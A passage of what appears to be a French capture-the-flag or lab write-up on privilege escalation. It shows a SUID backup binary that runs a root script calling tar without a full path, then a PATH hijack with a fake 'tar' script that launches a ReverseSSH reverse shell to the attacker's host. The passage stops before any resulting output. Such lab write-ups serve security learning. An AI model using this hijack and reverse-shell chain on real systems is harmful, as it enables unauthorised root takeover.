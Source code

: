```plain
-rwsr-xr-x. 1 root root 17K May  9  2020 /usr/bin/backup (Unknown SUID binary)
/home/moneygrabber/backup.sh
```

Ce script de backup est la propriété de *root* et nous ne pouvons pas le modifier. Voici son contenu :  

```bash
#!/bin/bash
tar -cf mysql.tar /var/lib/mysql
sleep 30
```

Pour ce qui est du binaire :  

```plain
[moneygrabber@ppeshop ~]$ strings /usr/bin/backup
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
[]A\A]A^A_
/home/moneygrabber/backup.sh
;*3$"
GCC: (GNU) 8.3.1 20190507 (Red Hat 8.3.1-4)
```

Cet exécutable appelle le script avec le path complet mais ensuite le script utilise des utilitaires sans leur path. On va donc exploiter cette faiblesse en écrivant un script que l'on nommera *tar* et sera appelé à la place du vrai.  

Je lance d'abord [ReverseSSH](https://github.com/Fahrj/reverse-ssh) en local :  

```plain
$ sudo ./reverse-sshx64 -l -v -p 443
2021/12/22 21:54:15 Starting ssh server on :443
2021/12/22 21:54:15 Success: listening on [::]:443
```

Sur la VM :  

```plain
[moneygrabber@ppeshop ~]$ cat tar
#!/usr/bin/bash
./reverse-sshx64 -v -p 443 192.168.56.1
[moneygrabber@ppeshop ~]$ chmod 755 tar
[moneygrabber@ppeshop ~]$ export PATH=.:$PATH
[moneygrabber@ppeshop ~]$ /usr/bin/backup
```

E.T. téléphone maison :  
